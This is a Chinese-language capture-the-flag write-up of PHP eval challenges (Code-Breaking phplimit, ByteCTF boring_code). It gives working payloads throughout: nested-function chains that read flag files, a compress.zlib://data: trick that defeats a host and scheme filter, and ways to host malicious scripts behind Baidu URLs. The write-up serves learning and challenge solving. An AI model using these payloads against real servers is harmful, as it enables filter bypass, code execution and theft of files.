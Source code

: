 # 函数妙用

## code-breaking_easy-phplimit函数的巧妙搭配

### 参考文章

- https://www.kingkk.com/2018/11/Code-Breaking-Puzzles-%E9%A2%98%E8%A7%A3-%E5%AD%A6%E4%B9%A0%E7%AF%87/#get-defined-vars
- https://xz.aliyun.com/t/6316
- https://www.cnblogs.com/BOHB-yunying/p/11616311.html

### Exp

```php
eval(next(current(get_defined_vars())));&b=print_r(scandir('../'));print_r(file_get_contents('../flag_phpbyp4ss'));
readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));
```

## ByteCTF boring_code

### 参考文章

- http://www.guildhab.top/?p=1077

- https://xz.aliyun.com/t/6316

### 分析

源码

```php
<?php
function is_valid_url($url) {
    if (filter_var($url, FILTER_VALIDATE_URL)) {
        if (preg_match('/data:\/\//i', $url)) {
            return false;
        }
        return true;
    }
    return false;
}

if (isset($_POST['url'])){
    $url = $_POST['url'];
    if (is_valid_url($url)) {
        $r = parse_url($url);
        if (preg_match('/baidu\.com$/', $r['host'])) {
            $code = file_get_contents($url);
            if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
                if (preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    eval($code);
                }
            }
        } else {
            echo "error: host not allowed";
        }
    } else {
        echo "error: invalid url";
    }
}else{
    highlight_file(__FILE__);
}
```

1.第一步

第一步需要绕过`preg_match`的检测，网上见到的payload都是通过购买域名，url跳转等方法进行绕过。其实可以通过代码绕过。

**我的方法**

```
compress.zlib://data:@baidu.com/baidu.com,phpinfo()
```

`compress.zlib`绕过data协议的检测，`@`使`data:`被解释为用户名和密码，`baidu.com/baidu.com`中只要包含`/`就会被解释为合法的`media-type`

![](../images/19-9-27_PHP_函数妙用_bytectf_1.png)

**其他方法**

- 购买一个 xxxxbaidu.com 的域名

- 百度网盘链接

  **这种方法的思路是将恶意代码上传到百度网盘 , 然后通过百度网盘的下载链接来绕过 baidu.com 的主机名限制 .**

  1. **将一个恶意脚本上传到百度网盘( 这里以 phpinfo() 为例 )**
  
     ![](../images/19-9-27_PHP_函数妙用_bytectf_3.png)
  
  2. **通过开发者工具( F12 ) , 在 network 选项卡中可以找到目标文件的链接**
  
     ![](../images/19-9-27_PHP_函数妙用_bytectf_2.png)
  
- 百度贴吧（https://www.4xseo.com/marketing/1280/

- 百度爬虫

  其原理大概就是 : **百度的搜索引擎爬虫会爬到你的个人站点 , 当你在百度上点击自己站点时 , 并不是直接访问 . 而是利用百度的重定向机制 , 将你的网址转换成`http://www.baidu.com/link?url=xxxxxxxxxxxxxxx` , 通过这个链接可以绕过第一层防御并且拿到你站点上的恶意脚本 .**

2.第二步

我们要获取`.`，可以通过获取`.`的ascii码，然后通过`chr`函数得到。写了个脚本：

```php
<?php
$functions=get_defined_functions()['internal'];

function getFucntionParameter1($func) {
    $ReflectionFunc = new \ReflectionFunction($func);
    $nums=$ReflectionFunc->getNumberOfRequiredParameters();
    if ($nums===1){
    	echo $func."\n";
    	#@print_r($func());
    	#echo "\n#####\n";
    }
}



foreach($functions as $vul){
	if(preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log|readline/i', $vul)){

	}else{
		getFucntionParameter1($vul);
	}
}
```

主要使用了反射检测函数的参数。

**payload**

- `crypt`函数的返回值最后一位可能为`.`

  ```php
  if(chdir(next(scandir(chr(ord(strrev(crypt(serialize(array())))))))))readfile(end(scandir(chr(ord(strrev(crypt(serialize(array()))))))));
  ```

- `localeconv`函数

  ```php
  echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
  ```

- `phpversion`函数，通过数学函数变化获取数字`46`

  ```php
  ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))
  ```

- `spl_autoload_extensions`函数

  ```php
  chr(ord(spl_autoload_extensions()))
  ```

